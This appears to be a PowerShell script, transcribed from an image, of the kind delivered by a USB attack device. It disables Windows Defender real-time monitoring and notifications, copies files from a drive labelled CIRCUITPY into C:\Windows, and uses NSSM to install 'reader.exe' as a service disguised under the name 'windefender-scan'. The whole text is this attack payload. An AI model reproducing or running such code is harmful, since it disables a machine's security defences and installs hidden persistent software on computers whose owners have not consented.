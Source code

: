 # Disable Enhanced Notifications
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name "DisableEnhancedNotifications" -Value 1

# Disable Real-Time Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Find the CIRCUITPY drive
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        # Copy files from CIRCUITPY to the Windows folder
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"  # Assuming nssm.exe is copied to the Windows folder
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and the reader.exe file exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            # Install and start the service
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found in the destination path."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
